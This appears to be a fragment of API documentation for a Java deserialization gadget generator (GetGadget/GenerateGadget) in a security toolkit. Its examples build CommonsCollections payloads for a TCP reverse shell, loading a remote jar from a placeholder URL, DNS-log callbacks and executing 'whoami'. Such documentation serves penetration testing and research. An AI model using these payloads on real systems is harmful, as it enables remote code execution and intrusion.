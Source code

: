 #### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetGadget

#### 详细描述
GenerateGadget this is a highly flexible function that can generate a Java object by three different ways:

 1. Generate a Java object that have no any params.

    Example: GenerateGadget(&#34;CommonsCollections1&#34;)
 2. Generate a Java object that have one param and implement by TemplateImpl, the first param is the name of the gadget, the second param is the class name, the third param is the class param.
    Example: GenerateGadget(&#34;CommonsCollections2&#34;, &#34;Sleep&#34;, &#34;1000&#34;)
 3. Generate a Java object that have multiple params and implement by TemplateImpl, the first param is the name of the gadget, the second param is the class name, the third param is the class param map.
    Example: GenerateGadget(&#34;CommonsCollections2&#34;, &#34;TcpReverseShell&#34;, map[string]string{&#34;host&#34;: &#34;127.0.0.1&#34;,&#34;port&#34;:&#34;8080&#34;})
 4. Generate a Java object that have one param and implement by TransformChain, the first param is the name of the gadget, the second param is the transform chain name, the third param is the param.
    Example: GenerateGadget(&#34;CommonsCollections1&#34;, &#34;dnslog&#34;, &#34;xxx.xx.com&#34;)
 5. Generate a Java object that have multiple params and implement by TransformChain, the first param is the name of the gadget, the second param is the transform chain name, the third param is the param map.
    Example: GenerateGadget(&#34;CommonsCollections1&#34;, &#34;loadjar&#34;, map[string]string{&#34;url&#34;: &#34;xxx.com&#34;, &#34;name&#34;: &#34;exp&#34;})
 6. Generate a Java object that implement by TemplateImpl.
    Example: GenerateGadget(&#34;CommonsCollections2&#34;, useRuntimeExecEvilClass(&#34;whoami&#34;))


#### 定义

`GetGadget(name string, opts ...any) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| name | `string` |   |
| opts | `...any` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |
